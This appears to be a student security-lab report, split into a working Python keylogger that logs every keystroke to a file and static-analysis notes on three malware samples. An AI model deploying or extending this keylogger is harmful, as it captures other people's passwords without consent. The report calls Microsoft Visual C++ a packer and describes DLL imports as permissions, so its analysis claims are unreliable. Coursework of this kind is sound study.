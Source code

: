 # Report LAB3

## Credits

- Romain Delayre : [romain.delayre@edu.ece.fr](mailto:romain.delayre@edu.ece.fr)
- Maxime Gillen : [maxime.gillen@edu.ece.fr](mailto:maxime.gillen@edu.ece.fr)

## Code a Keylogger

- A keylogger is a script that allows the recording of all the keys pressed by the user. It is a very dangerous tool because it can be used to steal passwords or other sensitive information.

- In pentesting a keylogger is very useful because it can be used to test the social engineering of a user. It can also be used to test the security of a password.

```python
from pynput.keyboard import Key, Listener
import logging


def on_press(key):
    logging.info(str(key))


logging.basicConfig(filename=("keylog.txt"),
                    level=logging.DEBUG, format=" %(asctime)s - %(message)s")


def on_press(key):
    logging.info(str(key))


with Listener(on_press=on_press) as listener:
    listener.join()

```

- The keylogger saves the inputs in the text file keylog.txt

- This keylogger triggers warning on the OS and so it is not very stealthy. In our case the keylogger works only on Mac OS and not Linux.

- An improved version of our keylogger could not be detected by the OS and would work on Linux and Mac OS. Furthermore it could be used to send the logs to a remote server and not only save them in a file.

---

## Anatomy of Malware

## Malware n°1

### a) What is the md5sum? What of interest does VirusTotal Report?

- <u>**md5sum:**</u> 4280aac55c1d3c327a6c00f0f0085677
- The interest is that the file has been flagged as a trojan **57** security vendors

### b) When was the malware compiled?

- 2009-05-14 17:12:41 UTC

### c) List a few imports or sets of imports and describe how the malware might use them

- SHELL32.dll
  - Permission to use the shell of the system (open a file, create a file, etc.)
- KERNEL32.dll
  - Permission to use the kernel of the system (create a thread, create a process, etc.)
- MSVCRT.dll
  - Permission to use the C runtime library of the system (printf, scanf, etc.)
- WS2_32.dll
  - Permission to use the Winsock library of the system (socket, connect, etc.)
  - Used to connect to a remote server
- USER32.dll
  - Permission to use the user32 library of the system (MessageBox, etc.)
  - Used to display a message box

### d) What are a few strings that stick out to you and why? (Use the strings command)

- Get environment variable
  - Get the environment variable of the system
- Set Thread Priority
  - Set the priority of the thread
- Send to server
  - Send data to a remote server : `http://www.ueopen/test.html`

### e) Are there any indications that this malware is packed? What are they? What is it packed with?

- The main indication to know if the malware is packed is the difference between the size of the raw data and virtual size.

- The file is packed with <u>**Microsoft Visual C++**</u>

### f) What do you think is the purpose of this malware?

- The purpose of this malware is to drop system files and send data to a remote server

---

## Malware n°2

### a) What is the md5sum? What of interest does VirusTotal Report?

- <u>**md5sum:**</u> :02658bc9801f98dfdf167accf57f6a36
- The interest is that the file has been flagged as a trojan **52** security vendors

### b) When was the malware compiled?

- 2008-09-16 08:40:04 UTC

### c) List a few imports or sets of imports and describe how the malware might use them

- KERNEL32.dll
  - Permission to use the kernel of the system (create a thread, create a process, etc.)
- MSVCRT.dll
  - Permission to use the C runtime library of the system (printf, scanf, etc.)
- WININET.dll
  - Permission to use the Wininet library of the system (InternetOpen, InternetConnect, etc.)
  - Used to connect to a remote server

### d) What are a few strings that stick out to you and why? (Use the strings command)

- Begin Download
  - Begin to download a file
- Begin Upload
  - Begin to upload a file

### e) Are there any indications that this malware is packed? What are they? What is it packed with?

- The main indication to know if the malware is packed is the difference between the size of the raw data and virtual size.

- The file is packed with <u>**Microsoft Visual C++**</u>

### f) What do you think is the purpose of this malware?

- The purpose of this malware is to download a file and upload a file to a remote server

---

## Malware n°3

### a) What is the md5sum? What of interest does VirusTotal Report?

- <u>**md5sum:**</u> : 6c2a33512b8b0ec906982783e82b9678
- The interest is that the file has been flagged as a trojan **58** security vendors

### b) When was the malware compiled?

- 2011-11-08 23:03:23 UTC

### c) List a few imports or sets of imports and describe how the malware might use them

- KERNEL32.dll
  - Permission to use the kernel of the system (create a thread, create a process, etc.)
- WS2_32.dll

  - Permission to use the Winsock library of the system (socket, connect, etc.)
  - Used to connect to a remote server

- WININET.dll
  - Permission to use the Wininet library of the system (InternetOpen, InternetConnect, etc.)
  - Used to connect to a remote server

### d) What are a few strings that stick out to you and why? (Use the strings command)

- `HTTP GET`

  - from windows update
  - from praticalmalwareanalysis

- Get process address
  - Get the address of a process

### e) Are there any indications that this malware is packed? What are they? What is it packed with?

- The file is packed with UPX

### f) What do you think is the purpose of this malware?

- The purpose of this malware is to download a file
